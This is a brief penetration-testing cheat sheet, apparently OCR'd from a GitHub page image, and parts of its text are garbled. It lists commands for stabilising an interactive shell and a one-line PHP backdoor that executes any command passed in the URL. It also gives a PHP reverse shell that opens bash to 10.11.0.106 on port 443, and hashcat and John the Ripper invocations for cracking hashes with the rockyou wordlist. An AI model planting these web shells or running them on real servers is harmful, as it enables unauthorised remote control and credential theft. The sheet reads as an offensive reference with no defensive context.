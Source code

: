 Adjust Interactive shell:

> $ Ctrl-Z  
> $ echo &gt; $TERM //find term $ stty raw -echo //disable shell echo  
> $ fg  
> $ reset  
> $ export SHELL=bash  
> $ export TERM=xterm

Php backdoor:

> $ &lt;?php echo shell\_exec\( &gt; $\_GET\['cmd'\]\);?&gt;

Php shell:

> &lt;?php echo shell\_exec\('bash -i &gt;& /dev/tcp/10.11.0.106/443 0&gt;&1'\);?&gt;  
> 

## PSSWD CRACKING

```text
> $ Look for the hash in online databases
```

Hashcat:

> $ Find mode in hashcat  
> ▪ hashcat --example hashes  
> $ hashcat -m 0 hashes /usr/share/wordlists/rockyou.txt

John:

> $ john files --wordlist=/usr/share/wordlists/rockyou.txt